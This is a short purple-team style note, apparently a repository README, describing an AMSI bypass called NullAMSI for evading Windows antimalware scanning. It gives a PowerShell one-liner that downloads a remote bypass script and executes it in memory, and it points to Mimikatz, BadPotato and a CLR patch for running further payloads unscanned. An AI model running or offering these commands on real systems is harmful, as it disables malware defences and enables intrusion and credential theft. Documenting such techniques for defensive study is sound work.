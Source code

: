 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Methods

### NullAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NullAMSI.ps1](https://github.com/papcaii/PurpleTeam-Note/blob/main/Tactics/defense-evasion/AMSI-BYPASS/Payloads/NullAMSI/Invoke-NullAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/papcaii/PurpleTeam-Note/refs/heads/main/Tactics/defense-evasion/AMSI-BYPASS/Payloads/NullAMSI/Invoke-NullAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI

#### Usage

- Powershell script (.ps1): We can directly run it
- Native PE Bynary: We can embed it into a powershell script like how they embed `mimikatz.exe` into [Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
- .NET PE Binary: 
    - I have tested this with [Invoke-BadPotato.ps1](https://github.com/Zanitas404/Invoke-BadPotato/blob/main/Invoke-BadPotato.ps1) and other .NET binary, but I always get this error
      ![image](https://github.com/user-attachments/assets/8db04ce3-3282-4db9-b203-b95f2d52901e)

    - Thanks to [Vixx's repo](https://github.com/V-i-x-x/AMSI-BYPASS/tree/main), I have done some research and successful deal with this problem by writing a script to patch it
    - Now we should run [Invoke-ClrBypass.ps1](Payloads/Invoke-ClrBypass/Invoke-ClrBypass.ps1) before running our .NET payload, for more detail please refer [this](Payloads/Invoke-ClrBypass/README.md)
